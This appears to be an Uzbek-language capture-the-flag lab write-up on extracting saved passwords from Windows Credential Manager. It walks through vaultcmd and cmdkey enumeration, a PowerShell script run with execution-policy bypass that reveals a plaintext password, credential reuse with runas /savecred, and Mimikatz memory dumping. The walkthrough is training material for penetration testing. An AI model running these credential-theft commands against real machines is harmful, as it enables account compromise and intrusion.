 
### Credential Manager nima?

Credential Manager — bu Windows’ning vebsaytlar, dasturlar va tarmoqlar uchun maxfiy ma'lumotlarni saqlovchi xususiyati hisoblanadi. U foydalanuvchi nomlari, parollar va internet manzillar kabi login ma'lumotlarini o‘zida saqlaydi. Credential Manager to‘rtta toifaga bo‘linadi:

1. **Web credentials** – Veb brauzerlar yoki boshqa dasturlar tomonidan saqlangan avtorizatsiya ma'lumotlari.
2. **Windows credentials** – Windows avtorizatsiya ma'lumotlari (NTLM yoki Kerberos).
3. **Generic credentials** – Oddiy foydalanuvchi nomi va parollar kabi avtorizatsiya ma'lumotlari (aniq matnda).
4. **Certificate-based credentials** – Sertifikatlarga asoslangan avtorizatsiya ma'lumotlari.

Eslatma: Ushbu ma'lumotlar foydalanuvchining shaxsiy papkasida saqlanadi va boshqa foydalanuvchi akkauntlari bilan bo‘lishilmaydi. Ammo ular tizim xotirasida (RAM) kesh holatida bo‘ladi.

---

### Credential Manager’ga qanday kiriladi?

Credential Manager’ga GUI orqali kirish mumkin:
**Control Panel → User Accounts → Credential Manager**
Yoki **komanda satri orqali**. Bu vazifada GUI mavjud bo‘lmagan holatdagi komanda satridan foydalanamiz.

![]()

---

### Credentiallarni tekshirish (vaultcmd bilan)

1. Mavjud vault’larni ko‘rish:

```shell
C:\Users\Administrator>vaultcmd /list
```

2. Web Credential’larda ma'lumotlar bormi, tekshirish:

```shell
C:\Users\Administrator>VaultCmd /listproperties:"Web Credentials"
```

Natijada:

* Saqlangan credentiallar soni: 1
* Himoya usuli: DPAPI

3. Credential tafsilotlarini ko‘rish:

```shell
C:\Users\Administrator>VaultCmd /listcreds:"Web Credentials"
```

Natija:

* Resurs: `internal-app.thm.red`
* Foydalanuvchi: `THMUser`
* Brauzer: `MSEdge`

---

### Credentiallarni olish (PowerShell orqali)

VaultCmd parolni ko‘rsata olmaydi. Ammo `Get-WebCredentials.ps1` PowerShell skriptidan foydalanish mumkin:

```shell
C:\Users\Administrator>powershell -ex bypass
PS> Import-Module C:\Tools\Get-WebCredentials.ps1
PS> Get-WebCredentials
```

Natijada:

* Foydalanuvchi: THMUser
* Resurs: internal-app.thm.red
* Parol: `Password!`

---

### RunAs orqali Credential’lardan foydalanish

`RunAs` — Windows dasturlarini boshqa foydalanuvchi nomidan ishga tushirish imkonini beruvchi buyruq.

```shell
runas /savecred /user:THM.red\thm-local cmd.exe
```

* `/savecred` – credential’ni Credential Manager’da saqlaydi.
* `whoami` buyrug‘i orqali sessiyani kim nomidan ishga tushganini tekshirish mumkin.

---

### cmdkey orqali credentiallarni ko‘rish

```shell
C:\Users\thm>cmdkey /list
```

Natija:

* Target: `Domain:interactive=thm\thm-local`
* Foydalanuvchi: `thm\thm-local`

---

### Credentiallarni xotiradan olish (Mimikatz bilan)

Mimikatz yordamida Credential Manager’dan saqlangan ma’lumotlarni (shu jumladan aniq matndagi parollarni) xotiradan olish mumkin:

```shell
C:\Users\Administrator>c:\Tools\Mimikatz\mimikatz.exe

mimikatz # privilege::debug
mimikatz # sekurlsa::credman
```

Bu orqali Credential Manager’da saqlangan parollarni to‘g‘ridan-to‘g‘ri xotiradan chiqarib olish mumkin.

---

### Eslatma

Bu texnikalarni boshqa vositalar yordamida ham amalga oshirish mumkin:

* **Empire**
* **Metasploit**
  Qo‘shimcha bilim olish uchun ushbu vositalar haqida mustaqil o‘rganishni tavsiya qilamiz.

